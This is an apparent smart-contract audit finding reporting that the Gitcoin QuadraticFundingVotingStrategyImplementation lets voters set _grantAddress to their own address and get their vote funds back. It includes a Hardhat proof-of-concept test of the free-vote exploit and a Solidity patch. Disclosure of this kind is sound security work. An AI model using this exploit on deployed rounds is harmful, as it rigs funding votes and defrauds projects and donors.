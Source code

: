 LuchoLeonel1

medium

# Vote without paying for the votes using _grantAddress

## Summary
The QuadraticFundingVotingStrategyImplementation contract sends back to _grantAddress the ETH or tokens used to vote.
The user can use his own address as _grantAddress and vote without paying anything.

## Vulnerability Detail
When a user votes, it sends the encodedVotes as a parameter and this encodedVotes has a variable called _grantAddress. This _grantAddress is not needed because encodedVotes already has the projectID.

Therefore, a malicius user could use his own address as _granAddress or another address of his own. In this way, the contract will emit a Voted event and send back the ETH or tokens to the malicius user.

Although the votes are not calculated on-chain, the operators in charge of computing the votes will have the extra job of looking to see if a malicius user employed this maneuver to vote.

**Proof of concept:**
 ```typescript
  expect(await MockERC20.balanceOf(player.address)).to.equal(1_000_000);

  await MockERC20.connect(player).approve(votingStrategyContract.address, 1_000_000);
  const voteTx = await round.connect(player).vote([ethers.utils.defaultAbiCoder.encode(
      ["address", "uint256", "address", "bytes32"],
      [
          MockERC20.address,
          1_000_000,
          // Here goes the _grantAddress
          player.address,
          ethers.utils.hexZeroPad(projectID.toHexString(), 32),
      ]
  )]);

  await expect(voteTx).to.emit(
      votingStrategy, 'Voted'
  ).withArgs(
      MockERC20.address,
      1_000_000,
      player.address,
      // This is the _grantAddress
      player.address,
      projectID,
      round.address
  );

  expect(await MockERC20.balanceOf(player.address)).to.equal(1_000_000);
  expect(await MockERC20.balanceOf(round.address)).to.equal(0);
  expect(await MockERC20.balanceOf(votingStrategyContract.address)).to.equal(0);
```


## Impact
A malicius user can vote for a project they want to win, without paying anything and messing up the vote count.

## Code Snippet

RoundImplementation.sol
[https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/round/RoundImplementation.sol#L430-L439](https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/round/RoundImplementation.sol#L430-L439)

QuadraticFundingVotingStrategyImplementation.sol
[https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L55-L102](https://github.com/sherlock-audit/2023-03-Gitcoin/blob/main/contracts/contracts/votingStrategy/QuadraticFundingStrategy/QuadraticFundingVotingStrategyImplementation.sol#L55-L102)

## Tool used

Manual Review, Hardhat

## Recommendation
The contract in charge of distributing the money among the winning projects is not this contract but the PayoutStrategy contract.

Remove the use of _grantAddress and send the ETH or tokens to the Round contract, which will send the money to the PayoutStrategy contract when the round ends.

The variable roundAddress is inside the QuadraticFundingVotingStrategyImplementation contract because it inherits from IVotingStrategy.

```solidity
function vote(bytes[] calldata encodedVotes, address voterAddress) external override payable nonReentrant isRoundContract {

    for (uint256 i = 0; i < encodedVotes.length; i++) {

      (
        address _token,
        uint256 _amount,
-       address _grantAddress,
        bytes32 _projectId
      ) = abi.decode(encodedVotes[i], (
        address,
        uint256,
-       address,
        bytes32
      ));

      if (_token == address(0)) {
-       AddressUpgradeable.sendValue(payable(_grantAddress), _amount);
+       AddressUpgradeable.sendValue(payable(roundAddress), _amount);
      } else {
        SafeERC20Upgradeable.safeTransferFrom(
          IERC20Upgradeable(_token),
          voterAddress,
-         _grantAddress,
+         roundAddress,
          _amount
        );

      }

      emit Voted(
        _token,
        _amount,
        voterAddress,
-       _granAddress,
+       roundAddress,
        _projectId,
        msg.sender
      );

    }
  }
```